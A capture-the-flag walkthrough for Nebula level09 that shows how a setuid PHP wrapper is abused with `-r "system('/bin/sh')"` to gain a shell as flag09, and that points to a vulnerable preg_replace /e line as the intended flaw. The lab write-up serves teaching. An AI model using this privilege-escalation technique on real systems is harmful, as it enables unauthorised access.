 **The Cheese Method**

This first method is not the intended way to complete this level. The C setuid
wrapper appears to be a modified `php` binary.

```shell
level09@nebula:~$ /home/flag09/flag09 -h
Usage: php [options] [-f] <file> [--] [args...]
       php [options] -r <code> [--] [args...]
       php [options] [-B <begin_code>] -R <code> [-E <end_code>] [--] [args...]
       php [options] [-B <begin_code>] -F <file> [-E <end_code>] [--] [args...]
       php [options] -- [args...]
       php [options] -a

  -a               Run as interactive shell
  -c <path>|<file> Look for php.ini file in this directory
  -n               No php.ini file will be used
  -d foo[=bar]     Define INI entry foo with value 'bar'
  -e               Generate extended information for debugger/profiler
  -f <file>        Parse and execute <file>.
  -h               This help
  -i               PHP information
  -l               Syntax check only (lint)
  -m               Show compiled in modules
  -r <code>        Run PHP <code> without using script tags <?..?>

... snip ...
```

In particular, there are options (`-a`, `-r` and `-f` in particular) that
allows for execution of arbitrary PHP code. We can abuse this to get a flag09
shell.

```shell
level09@nebula:~$ /home/flag09/flag09 -r "system('/bin/sh');"
sh-4.2$ whoami
flag09
sh-4.2$ id
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

**The Normal Method**

The PHP script reads a file with the following format and does some string
replacements via regex before printing it out.

```text
[email address@domain.com]
```

The intended vulnerability in the PHP script is the following line:

```php
$contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
```


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md